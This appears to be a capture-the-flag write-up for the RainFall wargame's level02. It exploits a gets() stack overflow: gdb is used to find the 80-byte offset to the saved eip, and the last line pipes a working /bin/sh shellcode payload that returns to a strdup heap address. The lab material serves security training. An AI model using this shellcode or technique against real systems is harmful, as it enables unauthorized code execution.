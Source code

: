 # level02

The program waits for an input:

```bash
level2@RainFall:~$ ./level2 
sd
sd
```

By looking at the code, we can see that the a `gets` is made on a 76 bytes buffer. Also, a check is performed on the `eip` address to see if it begins with `0xb`.

We can calculate the buffer length to override `eip`:

```bash
(gdb) r <<< $(python -c "print 'A' * 80")
Starting program: /home/user/level2/level2 <<< $(python -c "print 'A' * 80")

Breakpoint 1, 0x080484f2 in p ()
(gdb) x/29wx $esp
0xbffff680:     0xbffff69c      0x00000000      0x00000000      0xb7e5ec73
0xbffff690:     0x080482b5      0x00000000      0x00c30000      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6e0:     0x41414141      0x41414141      0x41414141      0x08048500
0xbffff6f0:     0x08048550
(gdb) i f
Stack level 0, frame at 0xbffff6f0:
 eip = 0x80484f2 in p; saved eip 0x8048500
 called by frame at 0x41414149
 Arglist at 0xbffff6e8, args: 
 Locals at 0xbffff6e8, Previous frame's sp is 0xbffff6f0
 Saved registers:
  ebp at 0xbffff6e8, eip at 0xbffff6ec
(gdb) p/d 0xbffff6ec - (0xbffff690 + 8)
$3 = 84
(gdb) p/d 0xbffff6ec - (0xbffff690 + 12)
$8 = 80
```

We need 80 bytes before overriding `eip`. Unless overriding `eip` with a stack address, we will take an address on the heap, the address from `strdup`:

```assembly
Breakpoint 2, 0x0804853d in p ()
(gdb) x/x $eax
0x804a008:      0x41414141
```

We can now put our shellcode as argument, and put the heap address after the 80 padding bytes:

```bash
`(python -c "print  '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'A' * (80 - 21) + '\x08\xa0\x04\x08'";cat) | ./level2`
```
